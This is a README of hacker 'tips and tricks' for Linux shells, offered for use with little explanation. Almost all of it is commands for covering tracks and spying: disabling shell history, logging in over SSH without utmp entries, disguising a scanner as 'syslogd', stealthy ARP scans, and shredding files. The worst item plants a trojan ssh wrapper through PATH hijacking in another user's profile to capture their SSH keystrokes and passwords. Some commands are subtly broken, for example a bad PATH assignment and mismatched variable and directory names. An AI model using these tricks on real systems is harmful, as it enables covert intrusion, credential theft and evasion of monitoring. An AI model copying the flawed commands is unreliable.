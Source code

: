 # thc-1001-tips-and-tricks
Various tips &amp; tricks

A collection of our favorite tricks. Many of those tricks are not from us. We merely collect them.

We show the tricks 'as is' without any explanation why they work. You need to know Linux to understand how and why they work.

Got tricks? Send them to root@thc.org.


**1. Leave bash without history:**

Tell Bash that there is no history file (*~/.bash_history*).
```
$ unset HISTFILE
```
This is the first command we use on every shell. It will stop the bash from logging your commands.

It is good housekeeping to 'commit suicide' when exiting the shell:
```
$ kill -9 $$
```

**2. Almost invisilbe ssh**

```
$ ssh -o UserKnownHostsFile=/dev/null -T user@host.org "bash -i"
```
This will not add your user to the */var/log/utmp* file and you wont show up in *w* or *who* command of logged in users. On your client side it will stop logging the host name to *~/.ssh/known_hosts*.

**3. SSH tunnel OUT**

We use this all the time to circumvent local firewalls or IP filtering:
```
$ ssh -g -L31337:1.2.3.4:80 user@host.org
```
You or anyone else can now connect to your computer on port 31337 and gets connected to 1.2.3.4:80 and appearing from host 'host.org'

**4. SSH tunnel IN**

We use this to give access to a friend to an internal machine that is not on the public internet:
```
$ ssh -o ExitOnForwardFailure=yes -g -R31338:192.168.0.5:80 user@host.org
```
Anyone connecting to host.org:31338 will get connected to the compuyter 192.168.0.5 on port 80 via your computer.

**5. Hide your command**

```
$ cp `which nmap` syslogd
$ PATH=.:$PATH syslogd -T0 10.0.2.1/24
```
In this example we execute *nmap* but let it appear with the name *syslogd* in *ps alxwww* process list

**6. Hide your arguments**

Continuing from above..FIXME: can this be done witout LD_PRELOAD and just in bash?

**7. ARP discover computers on the local network**
```
$ nmap -r -sn -PR 192.168.0.1/24
```
This will Arp-ping all local machines. ARP ping always seems to work and is very steahlthy (e.g. does not show up in the target's firewall).

**8. Sniff a SSH session**
```
$ strace -p <PID of ssh> -e trace=read -o ~/.ssh/ssh_log.txt
$ grep 'read(4' ~/.ssh/ssh_log.txt | cut -f1 -d\"
```
Dirty way to monitor a user who is using ssh to connect to another host from a computer that you control.

**9. Sniff a SSH session without root priviledges**

Even dirtier way in case */proc/sys/kernel/yama/ptrace_scope* is set to 1 (strace will fail on already running SSH clients unless uid=0)

Create a wrapper script called 'ssh' that executes strace + ssh to log the session:
```
# Add ~/.ssh to the execution PATH variable so our 'ssh' is executed instead of the real ssh:
$ echo '$PATH=~/.local/bin:$PATH' >>~/.profile

# Create our log directory and our own ssh binary
$ mkdir ~/.ssh/.logs
$ mkdir -p ~/.local/bin ~/.ssh/logs

$ cat >~/.local/bin/ssh
#! /bin/bash
strace -e trace=read -o '! ~/.local/bin/ssh-log $$' /usr/bin/ssh $@
# now press CTRL-d to close the file.

$ cat ~/.local/bin/ssh-log
#! /bin/bash
grep 'read(4' | cut -f2 -d\" | while read -r x; do
        if [ ${#x} -ne 2 ] && [ ${#x} -ne 1 ]; then continue; fi
        if [ x"${x}" == "x\\n" ] || [ x"${x}" == "x\\r" ]; then
                echo ""
        else
                echo -n "${x}"
        fi
done >~/.ssh/.logs/ssh-log-"${1}"-`date +%s`.txt
# now press CTRL-d to close the file

$ chmod 755 ~/.local/bin/ssh ~/.local/bin/ssh-log
```

The SSH session will be sniffed and logged to *~/.ssh/logs/* the next time the user logs into his shell and uses SSH.

**10. File Encoding - uuencode**

Sometimes it is needed to encode a binary file to a more terminal friendly character-set such as base64. Any of these encoding techniques can be (see further on) to transfer a binary file between your local system and a remote system you are logged in to using nothing else but the shell/terminal as a transport medium (e.g. no separate connection).

Encode:
```
$ uuencode /etc/issue.net issuer.net-COPY
begin 644 issue-net-COPY
356)U;G1U(#$X+C`T+C(@3%13"@``
`
end
```
Cut & paste the output (4 lines, starting with 'being 644 ...') into this command:
Decode:
```
$ uudecode
begin 644 issue-net-COPY
356)U;G1U(#$X+C`T+C(@3%13"@``
`
end
```

**11. File Encoding - openssl**

Openssl can be used when uu/decode/encode is not available on the remote system:

Encode:
```
$ openssl base64 </etc/issue.net
VWJ1bnR1IDE4LjA0LjIgTFRTCg==
```
Cut & paste the output into this command:
```
$ openssl base64 -d >issue.net-COPY
```

**12. File Encoding - xxd**

..and if neither *uuencode* nor *openssl* is available then we have to dig a bit deeper in our trick box and use *xxd*.

Encode:
```
$ xxd -p </etc/issue.net
726f6f743a783a303a30...
```

Cut & paste the output into this command:
Decode:
```
$ xxd -p -r >issue.net-COPY
```

**13. File transfer - screen from REMOTE to LOCAL**

Transfer a file FROM the remote system to your local system:

Have a *screen* running on your local computer and log into the remote system from within your shell. Instruct your local screen to log all output:

> CTRL-a : logfile screen-xfer.txt

> CTRL-a H

We use *openssl* to encode our data but any of the above encoding methods works. This command will display the base64 encoded data in the terminal and *screen* will write this data to *screen-xfer.txt*:

```
$ openssl base64 </etc/issue.net
```

Stop your local screen from logging any further data:

> CTRL-a H 

On your local computer and from a different shell decode the file:
```
$ openssl base64 -d <screen-xfer.txt
$ rm -rf screen-xfer.txt
```

**13. File transfer - screen from LOCAL to REMOTE**

On your local system (from within a different shell) encode the data:
```
$ openssl base64 </etc/issue.net >screen-xfer.txt
```

On the remote system (and from within the current *screen*):
```
$ openssl base64 -d
```

Get *screen* to slurp the base64 encoded data into screen's clipboard and paste the data from the clipboard to the remote system:

> CTRL-a : readbuf screen-xfer.txt

> CTRL-a : paste .

> CTRL-d

> CTRL-d

Note: Two C-d are required due to a [bug in openssl](https://github.com/openssl/openssl/issues/9355).

**14. Shred & Erase a file**

```
$ shred -z foobar.txt
```

**15. Shred & Erase without *shred***
```
$ FNAME=foobar.txt; dd bs=1k count="`du -sk \"${FNAME}\" | cut -f1`" if=/dev/urandom >"${FILENAME}"; rm -f "${FNAME}"
```
Note: Or deploy your files in */dev/shm* directory so that no data is written to the harddrive. Data will be deleted on reboot.

Note: Or delete the file and then fill the entire harddrive with /dev/urandom and then rm -rf the dump file.

**16. Hide files as User from that User**

```
alias ls='ls -I SecretDirectory'
```

This will hide the directory *SecretDirectory* from the *ls* command. Place in user's *~/.profile*.


--------------------------------------------------------------------------
Shoutz: ADM


